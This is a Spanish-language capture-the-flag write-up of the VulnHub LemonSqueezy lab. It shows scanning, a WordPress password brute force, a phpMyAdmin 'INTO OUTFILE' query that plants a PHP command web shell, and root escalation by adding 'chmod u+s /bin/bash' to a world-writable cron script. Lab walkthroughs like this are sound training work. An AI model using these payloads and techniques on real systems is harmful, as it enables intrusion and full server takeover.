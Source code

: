 ```yaml
---
title: LemonSqueezy
published: true
---
```


---

[Lemonsqueezy1](@https://www.vulnhub.com/entry/lemonsqueezy-1,473/)

La descripcion comenta que agreguemos ‘lemonsqueezy’ al hosts.

## Intrusion

Empiezo haciendo un escaneo con Nmap para ver puertos de la maquina.

```bash
>Nmap scan report for lemonsqueezy (192.168.1.32)
Host is up (0.0014s latency).
PORT   STATE SERVICE
80/tcp open  http
```

![](https://eidd3.github.io//assets/img/LemonSqueezy1/img.png)

Con Nikto busco posibles vulnerabilidades o recursos en la pagina.

```bash
nikto -host 192.168.1.32
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          192.168.1.32
+ Target Hostname:    lemonsqueezy
+ Target Port:        80
+ Start Time:         2023-02-08 18:59:50 (GMT-3)
---------------------------------------------------------------------------
+ Server: Apache/2.4.25 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ Allowed HTTP Methods: HEAD, GET, POST, OPTIONS 
+ OSVDB-3092: /manual/: Web server manual found.
+ /wordpress/: A Wordpress installation was found.
+ /phpmyadmin/: phpMyAdmin directory found
---------------------------------------------------------------------------
+ End Time:           2023-02-08 19:00:08 (GMT-3) (18 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Reporta 2 directorios interesantes.

![](https://eidd3.github.io//assets/img/LemonSqueezy1/img1.png)

![](https://eidd3.github.io//assets/img/LemonSqueezy1/img2.png)


Con wpscan busco posibles usuarios para tratar de ingresar en el panel de phpmyadmin o en el wordpress.

```bash
wpscan --url http://192.168.1.32/wordpress/ -e u
[sudo] password for eddie: 
_______________________________________________________________

[+] URL: http://192.168.1.32/wordpress/ [192.168.1.32]

Interesting Finding(s):

[i] The main theme could not be detected.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <====================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] lemon
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] orange
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)


Me reporta 2 usuarios, pero todavia no tengo ninguna contraseña para probar, por lo que lanzo otro escaneo para hacer fuerza bruta y tratar de conseguir contraseñas.

wpscan --url http://192.168.1.32/wordpress/ -U orange -P /usr/share/wordlists/rockyou.txt
_______________________________________________________________

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - orange / ginger                                                                                                                                      
Trying orange / sweetie Time: 00:00:02 <==========================================================================> (165 / 14344557)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: orange, Password: ginger

```

| User         | Password          |
|:-------------|:------------------|
| orange       | ginger		   |


Con estas credenciales puedo iniciar sesion en el panel de log in de wordpress.

![](https://eidd3.github.io//assets/img/LemonSqueezy1/img3.png)

Al ingresar ya se ve algo raro, un nota que dice “mantener esto seguro” y lo que parace ser una contraseña.

![](https://eidd3.github.io//assets/img/LemonSqueezy1/img4.png)

Con esta nueva contraseña se puede tratar de ingresar al panel de phpmyadmin como el usuario orange o lemon.

![](https://eidd3.github.io//assets/img/LemonSqueezy1/img5.png)

Este usuario y contraseña son validos, por lo que me deja ingresar a phpmyadmin.

Una vez dentro de PhpMyAdmin la idea es subir una shell al servidor web; ya que puedo ver la base de datos ‘wordpress’ voy a tratar de crear una consulta SQL maliciosa que en una ruta dada de la pagina pueda ejecutar comandos.

![](https://eidd3.github.io//assets/img/LemonSqueezy1/img6.png)

Primero creamos la consulta, vamos a la pestaña SQL que es donde vamos a ingresar el codigo de la consulta y agregamos esa linea para poder ejecutar comandos en la ruta http://192.168.1.32/wordpress/shell.php con el parametro cmd. 

```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/wordpress/shell.php"
```

![](https://eidd3.github.io//assets/img/LemonSqueezy1/img7.png)

Ahora que puedo ejecutar comandos queda entablar una reverse shell.

![](https://eidd3.github.io//assets/img/LemonSqueezy1/img8.png)


## Escalando Privilegios

Si vemos las tareas cron que se ejecutan en el sistema vemos que root ejecuta cada 2 minutos logrotate.

```bash
bash-4.4$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    /etc/logrotate.d/logrotate
```

```bash
bash-4.4$ cat /etc/logrotate.d/logrotate 
#!/usr/bin/env python
import os
import sys
try:
   os.system('rm -r /tmp/* ')
except:
    sys.exit()
```

```bash
bash-4.4$ ls -la /etc/logrotate.d/logrotate 
-rwxrwxrwx 1 root root 134 Feb  9 06:56 /etc/logrotate.d/logrotate
```

El archivo tiene permisos 777 por lo que otro pueden editar el archivo, asi que con la libreria os importada puedo hacer que root le de permisos SUID a la bash y esperar que ejecute la tarea para convertirme en root.

```bash
bash-4.4$ cat /etc/logrotate.d/logrotate 
#!/usr/bin/env python
import os
import sys
os.system('chmod u+s /bin/bash')
try:
   os.system('rm -r /tmp/* ')
except:
    sys.exit()
```

```bash
bash-4.4$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1099016 May 16  2017 /bin/bash
bash-4.4$ bash -p
bash-4.4# whoami
root
bash-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

